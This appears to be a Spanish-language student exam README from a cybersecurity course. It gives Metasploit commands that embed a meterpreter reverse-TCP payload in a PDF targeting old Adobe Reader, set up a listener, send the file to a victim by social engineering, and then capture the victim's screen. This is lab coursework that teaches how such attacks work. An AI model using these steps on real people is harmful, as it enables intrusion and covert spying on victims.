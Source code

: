 # -UDEM--Ciberseguridad
Parcial de Ciberseguridad

Vídeo:

Explicación: Incrusta una Carga (payload) dentro un archivo PDF existente. El archivo PDF resultante puede ser enviado al objetivo como parte de un ataque de ingeniería social.

Sistema Operativo: Windows XP SP3 (Inglés/Español) / Windows Vista / Windows 7 (Inglés)
Programas: Adobe Reader v8.x, v9.x <br />
<br />
use exploit/windows/fileformat/adobe_pdf_embedded_exe <br />
set payload windows/meterpreter/reverse_tcp <br />
ifconfig <br />
set lhost 10.191.3.4 <br />
set lport 4444 <br />
set infilename /root/parcial/el_gigante_egoista.pdf <br />
exploit <br />
<br />
back <br />
use exploit/multi/handler <br />
set lhost 10.191.3.4 <br />
set lport 4444 <br />
exploit <br /> 
<br />
Enviar archivo a la máquina que se desea atacar <br />
cuando se tenga el acceso a la máquina atacada se podrá usar todas las herramientas que tiene meterpreter<br />
<br />
load espia<br />
screengrab

